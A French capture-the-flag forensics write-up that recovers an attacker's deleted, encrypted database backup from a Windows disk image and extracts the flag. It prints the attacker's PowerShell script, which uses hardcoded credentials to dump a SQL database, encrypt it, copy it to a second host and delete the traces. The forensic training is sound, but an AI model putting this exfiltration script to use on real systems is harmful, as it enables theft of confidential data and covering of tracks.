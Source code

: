 # iDisk

![](https://i.imgur.com/x5K1k3R.png)

Dans ce challenge on nous file un fichier compressé contenant une image disque.

On va donc analyser l'image disque, pour cela on va extraire les dossiers qu'il contient avec testdisk.

```
$ testdisk forensic.dd
```

Maintenant relisons l'énnoncé, l'intrusion ce passe dans l'entreprise `ECORP`.

On va donc chercher dans le répertoire contenant tout les fichiers de l'image disque `forensic.dd`, un fichier contenant le nom `ECORP` :

```

$ grep -r ECORP .
Fichier binaire ./pagefile.sys correspondant
Fichier binaire ./Windows/WinSxS/amd64_microsoft-windows-a..ence-mitigations-c1_31bf3856ad364e35_10.0.17763.316_none_810c351a77dd1c84/sysmain.sdb correspondant
Fichier binaire ./Windows/WinSxS/amd64_microsoft-windows-a..ence-mitigations-c1_31bf3856ad364e35_10.0.17763.475_none_80ca572e780ea7fa/sysmain.sdb correspondant
./Windows/System32/backup.ps1:$password = ConvertTo-SecureString "ECORP2021" -AsPlainText -Force


[...]
```

On a plusieurs fichiers contenant le nom ``ECORP``, dont un : `./Windows/System32/backup.ps1`, qui semble interessant.

On va par conséquence lire le contenu de celui-ci :

```
$ cat ./Windows/System32/backup.ps1
# Connect to the remote server 
$password = ConvertTo-SecureString "ECORP2021" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ("root", $password)

$s = New-PSSession -ComputerName DESKTOP-GD806IG -Credential $Cred


# Backup the confidential database muahahaha
Invoke-Command -Session $s -ScriptBlock { Backup-SqlDatabase -ServerInstance "DESKTOP-GD806IG" -Database "pre_prod" -BackupFile "C:\Users\root\Documents\db_backup.bak" }

# Encrypt the dump
Invoke-Command -Session $s -ScriptBlock { cd "C:\Program Files\OpenSSL-Win64\bin"; .\openssl.exe aes-256-cbc -in C:\Users\root\Documents\db_backup.bak -out C:\Users\root\Documents\db_backup.bak.enc -iv 48bb06a87601bcf63228f2e06dfe72b6 -K b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756 }

# Create a compressed archive of the backup
Invoke-Command -Session $s -ScriptBlock { C:\Users\root\Downloads\7z1900-extra\7za.exe a -v1m "C:\Users\root\Documents\db_backup.zip" "C:\Users\root\Documents\db_backup.bak.enc"}

# Download the archive
Invoke-Command -Session $s -ScriptBlock {$myPassword = ConvertTo-SecureString "Test1234" -AsPlainText -Force; $myCreds = New-Object System.Management.Automation.PSCredential ("DESKTOP-RD0QA0B\Skiddy", $myPassword); $mySession = New-PSSession -ComputerName "DESKTOP-RD0QA0B" -Credential $myCreds; Copy-Item -Path C:\Users\root\Documents\db_backup.zip* -Destination 'C:\Users\Skiddy\Music\Jazz' -ToSession $mySession }

# Copy the files to an external drive
cp C:\Users\Skiddy\Music\Jazz\db_backup.zip* E:\Backups

# Cleanup 
rm C:\Users\Skiddy\Music\Jazz\*

```

On peut voir grâce à ce script powershell, qu'un backup de la DB ``pre_prod`` à certainement était réalisé. Il se nommerait `db_backup`  et a été chiffré via openssl en AES 256 CBC, ayant pour IV : `48bb06a87601bcf63228f2e06dfe72b6` et pour Clé : `b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756`.

Malheureusement après avoir utiliser la commande ``find -name db_backup*`` à la racine du disque windows, aucun fichier de ce nom n'a était trouvé, tout simplement car celui-ci a été supprimé.

On va donc utiliser Autopsy pour tenter de retrouver le fichier supprimé :

![](https://i.imgur.com/C2SBzek.png)

On se rend compte que plusieurs fichiers ce nomme `db_backup.zip` avec un chiffre différent lui étant associé.

Le fichier backup principale à donc certainement était splité en 4 parties.

On va donc récupérer les 4 fichiers `db_backup.zip`.

Une fois cela fait il suffit de copier le contenu des 4 fichiers dans l'ordre croissant dans un seul fichier et unzip le fichier  : 

```
$ cat db_backup.zip.00* > db.zip

$ file db.zip
db: Zip archive data, at least v1.0 to extract

$ unzip db.zip 
Archive:  db.zip
 extracting: db_backup.bak.enc       

```

Une fois cela fait on voit que `db_backup` est chiffré, il sufft de le déchiffrer avec openssl et le faire avec le chiffrement : `AES 256 CBC` , l'IV : `48bb06a87601bcf63228f2e06dfe72b6` et la clé  : `b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756` puis chercher `DGA{` avec `grep`:

```
$ openssl aes-256-cbc -d -in db_backup.bak.enc -out db_backup.bak -iv 48bb06a87601bcf63228f2e06dfe72b6 -K b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756
$ strings db_backup.bak|grep DGA{
DGA{95ecd8f47dc647599e9d1f7a90974a997338cd48}}
```

Bingo, on peut valider le challenge avec le flag : `DGA{95ecd8f47dc647599e9d1f7a90974a997338cd48}` !!


